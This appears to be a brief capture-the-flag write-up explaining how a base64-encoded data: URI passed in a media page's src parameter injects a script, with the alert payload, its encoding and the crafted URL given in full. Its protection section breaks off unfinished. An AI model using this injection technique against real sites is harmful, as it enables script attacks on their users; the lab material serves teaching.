 # Script Injection

Inspecting the page reveals that the image is acually an HTML object. Knowing this we can pass in the url anything we want and the server should run it.

## How to exploit:

The image should be encode in base 64, we can then take the script:
```bash
<script>alert("Boom!!!")</script>
```

and encode it.

[Base 64 encoding](https://www.base64encode.org/)

Which gives us:
```bash
PHNjcmlwdD5hbGVydCgiQm9vbSEhISIpPC9zY3JpcHQ+
```

Now modify the src value in the url as follows:
```bash
<ip>/index.php?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgiQm9vbSEhISIpPC9zY3JpcHQ+
```

This gets the server to execute our code and return the flag.


## How to protect against:

This is an example of 

## Resources: